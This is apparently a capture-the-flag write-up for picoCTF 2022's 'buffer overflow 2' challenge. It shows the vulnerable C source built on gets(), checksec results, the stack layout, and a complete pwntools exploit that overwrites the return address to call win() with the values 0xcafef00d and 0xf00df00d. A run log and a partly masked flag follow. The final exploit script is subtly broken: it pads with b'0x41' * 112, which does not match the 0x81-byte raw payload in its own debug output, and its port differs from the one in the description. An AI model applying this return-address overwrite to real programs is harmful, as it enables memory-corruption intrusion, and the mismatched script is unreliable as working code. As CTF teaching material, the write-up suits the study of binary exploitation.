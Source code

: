 # buffer overflow 2

Tags: picoCTF 2022, Binary Exploitation, gets, argments_on_the_stack

| Author | Point    |
| ------ | -------- |
| SANJAY C / PALASH OSWAL | 300 points |

## Description

Control the return address and arguments  
This time you'll need to control the arguments to the function you return to! Can you get the flag from this program?  
You can view source here. And connect with it using nc saturn.picoctf.net 58012

## Hints

1. Try using GDB to print out the stack once you write to it.

## Solve

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

The binary security mechanisms are as follows:

```bash
$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a429aa852db1511dec3f0143d93e5b1e80e4d845, for GNU/Linux 3.2.0, not stripped

$ checksec.sh --file vuln
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   vuln
```

It is possible to overwrite the return address in function vuln() and move it to function win().

![](<./images/CleanShot 2024-04-18 at 20.27.47.png>)

However, unless arg1 == 0xCAFEF00D and arg2 == 0xF00DF00D are satisfied, the buf containing the flag will not be printed.

```c
  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
```

![alt text](<./images/CleanShot 2024-04-18 at 20.33.28.png>)

So, the following is the payload:

```python
payload = b''
payload += b'A' * 112 # Junk
payload += p32(0x08049296) # Return address, Jump to win().
payload += b'B' * 4 # Dummy return address to main().
payload += p32(0xcafef00d) # 1st argument
payload += p32(0xf00df00d) # 2nd argument
```

The full exploit code is as follows.

```python
from pwn import *

context.log_level = 'debug'

host = 'saturn.picoctf.net'
port = 50202


p = remote(host, port)

p.recvline()

payload = b''
payload += b'0x41' * 112 # Junk
payload += p32(0x08049296) # Return address, Jump to win().
payload += b'0x42' * 4 # Dummy return address to main().
payload += p32(0xcafef00d) # 1st argument
payload += p32(0xf00df00d) # 2nd argument

p.sendline(payload)

'''
When send payload, the stack is as follows.
------------------------------------------------------
|           Junk 112 bytes, b'0x41' * 112            | <- Offset
------------------------------------------------------
|    Return address to win() 4 bytes, 0x08049296     | <- EIP
------------------------------------------------------
| Dummy return address to main() 4 bytes, b'0x42' * 4|
------------------------------------------------------
|               Arg1 4 bytes, 0xcafef00d             |
------------------------------------------------------
|               Arg2 4 bytes, 0xf00df00d             |
------------------------------------------------------
'''

p.recvall()
```

Run the exploit.

```bash
$ python3 exploit.py            
[+] Opening connection to saturn.picoctf.net on port 50202: Done
[DEBUG] Received 0x1b bytes:
    b'Please enter your string: \n'
[DEBUG] Sent 0x81 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000070  96 92 04 08  42 42 42 42  0d f0 fe ca  0d f0 0d f0  │····│BBBB│····│····│
    00000080  0a                                                  │·│
    00000081
[+] Receiving all data: Done (163B)
[DEBUG] Received 0x81 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000070  96 92 04 08  42 42 42 42  0d f0 fe ca  0d f0 0d f0  │····│BBBB│····│····│
    00000080  0a                                                  │·│
    00000081
[DEBUG] Received 0x22 bytes:
    b'picoCTF{argum3nt5_4_d4yZ_********}'
[*] Closed connection to saturn.picoctf.net port 50202
```

## Flag

```
picoCTF{argum3nt5_4_d4yZ_********}
```